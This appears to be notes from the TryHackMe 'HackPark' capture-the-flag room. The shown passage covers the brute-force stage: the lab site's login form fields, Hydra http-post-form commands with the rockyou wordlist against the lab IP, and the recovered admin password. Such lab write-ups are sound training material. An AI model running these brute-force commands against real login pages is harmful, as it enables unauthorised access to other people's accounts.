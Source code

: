 # HackPark

> Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!

https://tryhackme.com/room/hackpark


10.10.4.18


Brute forcing with Hydra

Name of the clown : Pennywise

https://tineye.com


<form method="post" action="login.aspx?ReturnURL=%2fadmin%2f" id="Form1">
<input name="ctl00$MainContent$LoginUser$UserName" type="text" id="UserName" class="textEntry ltr-dir" />
<input name="ctl00$MainContent$LoginUser$Password" type="password" id="Password" class="passwordEntry ltr-dir" />


__VIEWSTATE=VONuS4qgtTqO8XE3V9OmRJIL5nfSzpal4XScbr8eUMj93ZW%2FERAk2VBHw%2B7g4fproUfMR0baI8D1OpVVAvCIcpPW%2FEZ5yZkHW8ejq1XvpqvU0PBSVCh8%2Fsd1Rrm8ErOT61hvRVeyglvlwr%2BOkNMIdK1JPW2yM03MOQsYxood64nMmE37l0T%2FX53vBIYLlW4zWeU8fdKDkAQd73iDnAlle94j839sst08jr7SBzdIejSzaePrAmlkwIrjPm1QlLLI2%2F9HCx17l4%2BrRc%2BTVV0TigCwHEN6AD67XJnHzpjLBX7BGxwlgo5RwUb0DLkEOkWGLSZWHp94Mg1UUDDLDDripwHXzuXQmIAum6pqN%2F0n2Wzf5Ngf&__EVENTVALIDATION=P4FLwWdgiB0Fyi14qTO2P6nQTj%2B%2FW99PPoHj%2Bodf5XQhP%2Fo3nlXcggU1rGi1%2Fp4pJzoaiAbbfnAtYjeyXHv%2F8G5BGavygh00rv142uGHsTuIaw7MIrATDaG3C3XJq9RygQv5trehheWQFdJPps0O7OFuB0%2B9FIWJbyW4V5Of82bnkT2%2B&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in


Layout of command: hydra -L <USER> -P <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”


hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt 10.10.4.18 http-post-form "/Account/login.aspx:ctl00$MainContent$LoginUser$UserName=^USER^&tl00$MainContent$LoginUser$Password=^PASS^&ctl00$MainContent$LoginUser$LoginButton=Log+in:Login failed"


hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt 10.10.4.18 http-post-form "/Account/login.aspx:__VIEWSTATE=VONuS4qgtTqO8XE3V9OmRJIL5nfSzpal4XScbr8eUMj93ZW%2FERAk2VBHw%2B7g4fproUfMR0baI8D1OpVVAvCIcpPW%2FEZ5yZkHW8ejq1XvpqvU0PBSVCh8%2Fsd1Rrm8ErOT61hvRVeyglvlwr%2BOkNMIdK1JPW2yM03MOQsYxood64nMmE37l0T%2FX53vBIYLlW4zWeU8fdKDkAQd73iDnAlle94j839sst08jr7SBzdIejSzaePrAmlkwIrjPm1QlLLI2%2F9HCx17l4%2BrRc%2BTVV0TigCwHEN6AD67XJnHzpjLBX7BGxwlgo5RwUb0DLkEOkWGLSZWHp94Mg1UUDDLDDripwHXzuXQmIAum6pqN%2F0n2Wzf5Ngf&__EVENTVALIDATION=P4FLwWdgiB0Fyi14qTO2P6nQTj%2B%2FW99PPoHj%2Bodf5XQhP%2Fo3nlXcggU1rGi1%2Fp4pJzoaiAbbfnAtYjeyXHv%2F8G5BGavygh00rv142uGHsTuIaw7MIrATDaG3C3XJq9RygQv5trehheWQFdJPps0O7OFuB0%2B9FIWJbyW4V5Of82bnkT2%2B&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"



http://10.10.4.18/Account/login.aspx


[80][http-post-form] host: 10.10.4.18   login: admin   password: 1qaz2wsx
